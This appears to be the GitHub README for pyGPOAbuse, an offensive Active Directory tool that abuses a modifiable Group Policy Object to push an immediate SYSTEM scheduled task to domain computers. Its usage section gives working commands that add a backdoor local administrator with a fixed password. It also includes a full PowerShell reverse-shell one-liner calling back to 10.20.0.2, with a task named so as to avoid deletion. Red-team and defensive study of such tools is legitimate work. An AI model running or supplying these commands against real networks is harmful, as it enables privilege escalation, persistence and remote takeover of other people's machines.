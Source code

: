# pyGPOAbuse

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a user can modify an existing GPO that applies on one or more computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
``` 


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)

